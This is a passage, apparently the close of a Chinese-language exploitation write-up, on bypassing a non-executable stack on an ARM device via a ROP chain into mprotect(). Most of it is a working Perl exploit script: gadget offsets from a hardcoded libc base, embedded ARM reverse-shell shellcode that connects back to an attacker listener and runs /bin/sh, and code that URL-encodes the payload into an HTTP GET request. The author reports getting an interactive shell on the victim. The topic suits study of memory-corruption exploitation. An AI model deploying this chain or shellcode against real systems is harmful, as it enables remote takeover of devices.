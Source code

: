 
图 26:调用 mprotect 后的状态

在我的 shell 代码中，我放置了一个反向 shell 有效负载。通过在攻击者的机器上设置一个监听器，我从受害者的端点获得了一个交互式 shell！

![](img/768332e1253e6c8025fd6ee103946889.png)

图 27:shell 代码的成功执行

```
#!/usr/bin/perl$| = 1;$libc = 0xb6e9c000;                     # libc base
$shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x92\x1a\xc8\x27\x51\x37\x01\xdf\x04\x1c\x0a\xa1\x4a\x70\x10\x22\x02\x37\x01\xdf\x3f\x27\x20\x1c\x49\x1a\x01\xdf\x20\x1c\x01\x21\x01\xdf\x20\x1c\x02\x21\x01\xdf\x04\xa0\x92\x1a\x49\x1a\xc2\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\xc0\xa8\xc8\x01\x2f\x62\x69\x6e\x2f\x73\x68\x58";
$buf = "A" x 347;
$buf .= pack("V", $libc + 0x1019d4); #pop {r1, pc}
$buf .= "C" x 16;
$buf .= pack("V", 0x01010101); # set r1
$buf .= pack("V", $libc + 0xd68ec); #mov r0, #7; pop {r4,r5,r6,pc}
$buf .= "A" x 4; # r4
$buf .= "B" x 4; # r5
$buf .= "D" x 4; # r6
$buf .= pack("V", $libc + 0xfe087); #mov r2, r0; pop {r4, pc}
$buf .= "A" x 4; 
$buf .= pack("V", $libc + 0x75a69); #pop {r0, r3, pc}
$buf .= pack("V", 0xbeffb010); #r0
$buf .= pack("V", 0xfffff001); #r3
$buf .= pack("V", $libc + 0x3c420); #pop {lr}; add sp, sp, #4; bx lr;
$buf .= pack("V", $libc + 0x8cec5); #pop {pc};
$buf .= "A" x 4;
$buf .= pack("V", $libc + 0x64934); #and r0, r3, r0; bx lr;
$buf .= pack("V", $libc + 0xc70f0); #mprotect()
$buf .= pack("V", $libc + 0x5531); #bx sp;
$buf .= $shellcode;
$uri = $buf;# URL Encode
$uri =~ s/([^A-Za-z0-9\/])/sprintf("%%%02X", ord($1))/seg;$request = "GET /${uri} HTTP/1.0\n\n";
print $request;
```

总而言之，我分享的只是通过调用 mprotect()函数绕过 NX 堆栈的众多方法之一。我真的很喜欢 ROP 技术，因为它真的需要我提前计划，并思考不同的小工具如何一起工作。最令人满意的部分是整个利用的完成，其中外壳代码被成功地执行以达到最终期望的结果。